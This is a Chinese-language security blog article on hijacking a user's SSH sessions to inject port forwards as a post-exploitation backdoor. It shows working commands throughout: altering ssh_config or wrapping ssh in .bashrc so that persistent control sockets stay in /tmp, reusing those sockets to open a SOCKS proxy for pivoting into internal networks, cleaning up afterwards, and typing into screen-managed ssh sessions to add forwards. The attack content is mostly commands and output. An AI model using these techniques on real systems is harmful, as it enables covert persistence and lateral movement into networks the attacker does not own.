 # 劫持SSH会话注入端口转发


0x00 前言
=======

* * *

昨天Ａ牛发群里的链接，其实这种攻击我感觉适合留后门，属于Post Exploitation阶段，我以前也没用过这个方法，都是傻呼呼的用个ld_preload后门，实际环境测试通过后，发现可用，比较有实用价值，就分享下，有错误的地方还请大家指出。

0x01 细节
=======

* * *

1.1第一种场景：
---------

攻击流程如下：SSH客户（ssh_user）连接到hop_1，攻击者(attacker)能够控制ssh_user这台机器，攻击者通过注入端口转发来实现入侵hop_1和hop_2之后的网络。步骤如下：

![enter image description here](http://drops.javaweb.org/uploads/images/dd3dfa45d97f87a27252ce059349075b74452a1b.jpg)

### 1. 攻击者可以用两种方式来修改ssh客户端，如果有ROOT权限可以直接修改/etc/ssh/ssh_config，如果没有修改ssh_config文件的权限，可以通过在相应用户的.bashrc中封装ssh来实现。主要涉及的项如下：

```
ControlPath /tmp/%r@%h:%p
ControlMaster auto
ControlPersist yes　　

```

![enter image description here](http://drops.javaweb.org/uploads/images/a2d791f6707882fc5a48514f9d2877aa24b151f5.jpg)

如果打开了ControlPersist，表示用户在进行SSH连接后，即使退出了会话，我们也能通过socket劫持，因为这个文件不会删除。

### 2. 当(ssh_user)连接到hop_1（192.168.56.131）的时候，会在/tmp目录下生成一个socket文件，我们使用

```
ssh -S /tmp/root@192.168.56.131\:22 %h

```

来连接

![enter image description here](http://drops.javaweb.org/uploads/images/668f485b24977c632696de26dccd9716877e46b5.jpg)

注入命令端口转发的命令如下：

```
ssh -O forward -D 8888 -S /tmp/root@192.168.56.131\:22 %x

```

![enter image description here](http://drops.javaweb.org/uploads/images/2470d93111f1811f7d80c0158923b806e04288bb.jpg)

执行完这条命令后，我们就可以使用ssh_user这台机器的8888端口做SOCKS5代理，访问hop_2后的网段了。

### 3. 前面说过，如果ControlPersist为yes，则不会自动删除sockets文件，我们可以手工rm删除/tmp/root@192.168.56.131:22，也可以优雅的使用

```
root@kali: # ssh -O exit -S /tmp/root@192.168.56.131\:22 %x

```

来删除。

在.bashrc里封装ssh命令的方法如下：

```
ssh () 
{ 
    /usr/bin/ssh -o "ControlMaster=auto" -o "ControlPath=/tmp/%r@%h:%p" -o "ControlPersist=yes" "$@";
}

```

![enter image description here](http://drops.javaweb.org/uploads/images/45f1222847bd95fe007387b0787c1fd119e11766.jpg)

1.2第二种场景：
---------

这种情景是ssh_user用户使用screen管理ssh会话时的情景，步骤如下：

![enter image description here](http://drops.javaweb.org/uploads/images/696e98402ae6f2c175c9baa53ca5154ab2d022a7.jpg)

### 1. 当ssh_user使用

```
screen ssh root@192.168.56.131

```

连接远程的hop_1（192.168.56.131）时，会在/var/run/screen有显示相应的文件

```
root@kali:~# ls -la /var/run/screen/
total 0
drwxrwxr-x  3 root utmp  60 Mar 16 03:37 .
drwxr-xr-x 20 root root 640 Mar  3 21:23 ..
drwx------  2 root root  60 Mar 16 04:21 S-root

```

其中S-ROOT表示是本地的root用户连接的远程，可以用`screen -r root/`来接管会话，或者用`screen -x 6851.pts-0.kali`。

### 2. 如果要注入端口转发，还有 一点要注意，需要先执行script /dev/null来绕过pts/tty限制。命令如下

```
root@kali:~# lsof -i TCP:8888
root@kali:~# script /dev/null 
Script started, file is /dev/null
root@kali:~# screen -S 6851.pts-0.kali -p 0 -X  stuff $'~C'
root@kali:~# screen -S 6851.pts-0.kali -p 0 -X  stuff $'-D:8888\n\n'
root@kali:~# lsof -i TCP:8888
COMMAND  PID USER   FD   TYPE DEVICE SIZE/OFF NODE NAME
ssh     6852 root    7u  IPv4  94301      0t0  TCP *:8888 (LISTEN)
ssh     6852 root    8u  IPv6  94302      0t0  TCP *:8888 (LISTEN)

```

注入screen的ssh会话，会有一个不好的地方，就是你敲的命令，会在当前正在连接的用户那里同时显示，容易被发现。

![enter image description here](http://drops.javaweb.org/uploads/images/3f1b41753207b6e99335fb8c1a4133ef565040ab.jpg)

0x02 参考文章
=========

* * *

http://0xthem.blogspot.com/2015/03/hijacking-ssh-to-inject-port-forwards.html